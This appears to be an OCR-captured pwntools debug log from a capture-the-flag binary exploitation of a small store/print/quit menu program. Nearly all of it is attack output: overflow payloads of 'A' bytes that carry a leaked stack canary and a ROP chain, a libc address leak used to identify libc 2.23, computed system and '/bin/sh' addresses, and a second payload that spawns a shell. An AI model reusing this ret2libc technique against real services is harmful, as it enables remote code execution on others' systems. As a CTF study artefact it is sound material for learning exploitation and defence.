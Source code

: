 ```
    '--------\n'
    '1.store\n'
    '2.print\n'
    '3.quit\n'
    '--------\n'
    '>> '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Sent 0xb9 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000080  41 41 41 41  41 41 41 41  00 0a 64 c5  f3 03 b2 6b  │AAAA│AAAA│··d·│···k│
    00000090  41 41 41 41  41 41 41 41  93 0a 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    000000a0  b0 0f 60 00  00 00 00 00  8c 06 40 00  00 00 00 00  │··`·│····│··@·│····│
    000000b0  08 09 40 00  00 00 00 00  0a                        │··@·│····│·│
    000000b9
[DEBUG] Received 0x1 bytes:
    '\n'
[*] info => 
[DEBUG] Received 0x2c bytes:
    '--------\n'
    '1.store\n'
    '2.print\n'
    '3.quit\n'
    '--------\n'
    '>> '
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Received 0x6 bytes:
    00000000  b0 22 77 90  2a 7f                                  │·"w·│*·│
    00000006
[*] write_addr => 0x7f2a907722b0
[+] ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64) be choosed.
[*] system_addr => 0x7f2a906c0390
[*] binsh_addr => 0x7f2a90807d57
[DEBUG] Received 0x2d bytes:
    '\n'
    '--------\n'
    '1.store\n'
    '2.print\n'
    '3.quit\n'
    '--------\n'
    '>> '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Sent 0xb9 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000080  41 41 41 41  41 41 41 41  00 0a 64 c5  f3 03 b2 6b  │AAAA│AAAA│··d·│···k│
    00000090  41 41 41 41  41 41 41 41  93 0a 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    000000a0  57 7d 80 90  2a 7f 00 00  90 03 6c 90  2a 7f 00 00  │W}··│*···│··l·│*···│
    000000b0  08 09 40 00  00 00 00 00  0a                        │··@·│····│·│
    000000b9
[DEBUG] Received 0x1 bytes:
    '\n'
[*] info => 
[DEBUG] Received 0x2c bytes:
    '--------\n'
    '1.store\n'
    '2.print\n'
    '3.quit\n'
    '--------\n'
    '>> '
```